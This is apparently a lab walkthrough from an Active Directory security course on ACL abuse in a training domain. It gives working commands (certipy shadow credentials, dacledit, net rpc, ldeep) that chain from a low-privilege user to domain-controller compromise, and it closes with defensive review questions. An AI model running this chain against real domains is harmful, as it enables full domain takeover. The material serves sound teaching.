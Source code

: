 #ACLs

WAD uses ACLs in what are called object's Security Descriptors in order to define object access. These ACLs hold information on which Security Principals have what type of access to the object in question. ACLs can be exploited by attackers. For example, imagine that the attacker compromises an account A, and this account A holds determined access rights to an object B. This way, if access rights are powerful enough, the attacker may also compromise object B using account A. This is the basic principle of ACL attacks. Now, let's get to concrete examples.

We've previously gathered information and uploaded it to BloodHound on the BloodHound section. Let's query our information for ACL paths, to get a better look at what can be done. Use the following Cypher query:
```
MATCH p=(u)-[r1]->(n)
WHERE r1.isacl = true
  AND u.admincount = false
  AND NOT toLower(u.name) CONTAINS 'key'
  AND toLower(u.domain) = "polaris.local"
  AND NOT toLower(u.name) CONTAINS 'ras and ias servers'
  AND NOT toLower(n.name) CONTAINS 'ras and ias servers'
  AND NOT toLower(u.name) CONTAINS 'samaccountname'
  AND NOT toLower(n.name) CONTAINS 'samaccountname'
  AND NOT toLower(u.name) CONTAINS 'enterprise'
RETURN p
```

This shows us different nodes and links. These nodes are our Security Principals, and the links between them represent different access rights, defined by ACLs. Through the BloodHound GUI we can determine that there's a path from the Skyler White user, all the way to the CAPTAIN machine!
First, we notice that Skyler has a 'ForceChangePassword' link to Jesse. This indicates that Skyler can change Jesse's password! Since we've compromised Skyler's account earlier, we can now compromise Jesse's by changing it's current password:
```
net rpc password jesse.pinkman -U polaris.local/skyler.white%Password123 -S captain.polaris.local
#introduce the password, for example ThisIsANewPassword10
#now confirm if the password was correctly altered
crackmapexec smb 192.168.122.10 -u jesse.pinkman -d polaris.local -p ThisIsANewPassword10
```
From jesse’s account, we can compromise walter.white’s account, since jesse holds the 'GenericWrite' access right over it. This means that Jesse can alter Walter's attributes. This allows for the Shadow Credentials attack, seen in our ADCS section. We can therefore  retrieve Walter's hashes and a TGT in his name through this attack, as Jesse.
```
certipy shadow auto -u jesse.pinkman@polaris.local -p ThisIsANewPassword10 -account 'walter.white'
```

And we've compromised Walter's account! Let's see what we can do from here. It seems Walter has the ability of modifying Hank's own ACL! This means the attacker, as Walter, can give itself other types of access to Hank, such as 'FullControl' access! Then, we can perform the Shadow Credentials attack once more, as 'FullControl' access gives Walter (yes, you've guessed it) full control over Hank's user account! One can also change Hank's password as we've done before.

```
#we can check walter's current rights on hank, please use set the KRB5CCNAME env var to the .ccache file retrieved in the last step
dacledit.py -no-pass -hashes :<NT hash from previous attack> -action 'read' -principal walter.white -target 'hank.schrader' 'polaris.local'/'walter.white'
#add FullControl right to walter
dacledit.py -no-pass -hashes :<NT hash from previous attack> -action 'write' -rights 'FullControl' -principal walter.white  -target 'hank.schrader' 'polaris.local'/'walter.white'
#we can check walter's new access rights on hank's account
dacledit.py -no-pass -hashes :<NT hash from previous attack> -action 'read' -principal walter.white -target 'hank.schrader' 'polaris.local'/'walter.white'
#you can use the shadow credentials attack once again, this time using walter's account and targeting hank's
certipy shadow auto -u walter.white@polaris.local -hashes :<NT hash from previous attack> -account 'hank.schrader'
```

Once you've compromised Hank's account, you can use it to add members to the 'Masters' security group! It seems that this group has 'GenericAll' access rights over the DC!

```
#Using Hank's credentials, add skyler.white to the Masters group
ldeep ldap -u hank.schrader -H ':<NT hash from previous attack>' -d polaris.local -s ldap://192.168.122.10 add_to_group "CN=Skyler White,CN=Users,DC=polaris,DC=local" "CN=Masters,CN=Users,DC=polaris,DC=local"

#Confirm that skyler is now part of the masters group
ldeep ldap -u hank.schrader -H ':<NT hash from previous attack>' -d polaris.local -s ldap://192.168.122.10 membersof 'Masters'
```
Now, all thanks to misconfigured ACLs with over-permissive access rights granted to low-privileged accounts,  the attacker can compromise the domain:
```
certipy shadow auto -u skyler.white@polaris.local -p 'Password123' -account 'captain$'
#now you can use the secretsdump.py script with either the hashes or the TGT received from the shadow credentials attack
```

!!! question
    How could these permissions have been configured more securely to prevent privilege escalation through ACLs?
??? success "Answer"
    Permissions should follow the principle of least privilege. Only the minimum rights necessary should be granted. For example, avoiding giving low-privileged accounts rights like ForceChangePassword, GenericWrite, or GenericAll over higher-privileged accounts.
!!! question
    What would be the real impact on the organization if an attacker exploited this ACL chain up to the Domain Controller?
??? success "Answer"
    Full compromise of the DC effectively gives the attacker control over the entire Active Directory domain. This means the ability to impersonate any user, maintain persistent access, and more. Essentially, this is game over for the organization’s AD domain.
!!! question
    Is the BloodHound tool only helpful for attackers in this scenario?
??? success "Answer"
    No. BloodHound is valuable for both attackers and defenders. While attackers can use it to map privilege escalation paths and exploit misconfigurations, defenders can leverage it to audit AD environments, identify excessive permissions, and remediate risky ACLs before they are abused. When integrated into security audits, BloodHound becomes a powerful defensive tool.




